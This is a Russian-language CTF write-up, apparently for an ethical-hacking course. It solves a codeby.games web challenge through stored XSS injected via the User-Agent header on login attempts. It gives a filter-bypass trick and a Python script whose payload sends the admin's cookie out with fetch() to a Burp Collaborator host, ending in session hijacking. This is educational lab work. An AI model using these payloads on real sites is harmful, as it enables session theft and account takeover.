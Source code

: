 # Врайт-ап задания "Запретный код" с платформы codeby.games

![Untitled](content/Untitled.png)

Задание **“Запретный код”** имеет сложность “Сложный” и относится к категории Веб

---

Переходим по указанному адресу **(62.173.140.174:16035)** и видим страницу авторизации с возможностью создания аккаунта

![Untitled](content/Untitled%201.png)

После регистрации попадаем на страницу с логами входа. При регистрации аккаунта я сразу решил попробовать проэксплуатировать XSS уязвимость и в поле *Username* вставил тестовый скрипт `<script>alert(1)</alert>`
Страница после входа выглядит так:

![Untitled](content/Untitled%202.png)

---

Попробуем зайти в наш аккаунт с другого профиля в хром но с другим паролем, чтобы попытка входа отобразилась в логах

![Untitled](content/Untitled%203.png)

![Untitled](content/Untitled%204.png)

Видим, что наш скрипт успешно отработал

---

Теперь же наша задача попасть в админ панель, посмотрим, из чего состоят cookie, чтобы мы могли по ним попасть к админу

![Untitled]content/Untitled%205.png)

---

Напишем простой скрипт на питоне с использованием библиотеки requests для того чтобы посмотреть возможность редактирования User agent. Это все нам надо чтобы в последствии когда мы допишем пейлоад мы могли в наш User agent запихнуть пейлоад на получения куков админа

```python
# Импорт библиотеки requests для работы с http запросами
import requests
# Сам пейлоад
payload = '<script>alert(document.cookie);</script>'

# Логин который будет использоваться при входе
user = "asdf"
# Часть из запроса включаящая User-agent которую мы изменяем на payload
headers = {'User-Agent': payload}
# Тоже часть запроса, передающая данные для входа
data = {"username":user, "password":"aboba"}

# Склеивание запроса вместе и отправка на сервер
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)

# Вывод статус кода и текста ответа
print(response.status_code)
print(response.text)
```

> Этот скрипт совершает попытку входа в наш аккаунт подставляя в User agent простой пейлоад
> 

Это будет работать примерно так:

- Мы изменяем наш User agent на пейлоад
- Мы знаем, что у админа логин - admin, используем это и будет входить с любым паролем, чтобы у админа он отобразился в логах
- Т.к. мы выяснили, что скрипт вставленный в User agent срабатывает автоматически, следоватаельно мы можем заменить простой пейлоад на пейлоад с получением куки из document.cookie
- Мы будем использовать **Collaborator** из burp suit pro ****для создания временного сервера для приятия наших отстуков

Т.к. на сайте присутствует защита от прямого получения cookie по фильтру на это слово используем возможности JavaScript для преобразования двух частей слово в одно

```jsx
<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>
```

Итоговый пейлоад будет выглядеть так:

```python
import requests
# В данном коде все аналогично прошлому, но тут мы разделили слово cookie на два фрагмента и склеили их потом
payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{ссылка из burpsuit}/?${vv}=` + document[vv]; fetch(payload);</script>'
user = "admin"
headers = {'User-Agent': payload}
data = {"username": user, "password": "aboba"}
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
print(response.status_code)
print(response.text)
```

Запускаем и ждем  ответа в бурпе

![Untitled]content/Untitled%206.png)

Тут нас интересует phpsessid, копируем его и подменяем через cookie editor 

![Untitled]content/Untitled%207.png)

И попадаем в админ панель с флагом в ней!

![Untitled](content/Untitled%208.png)

---

Написано [frechez](https://t.me/peeepaw) для курса "Этичный хакинг"
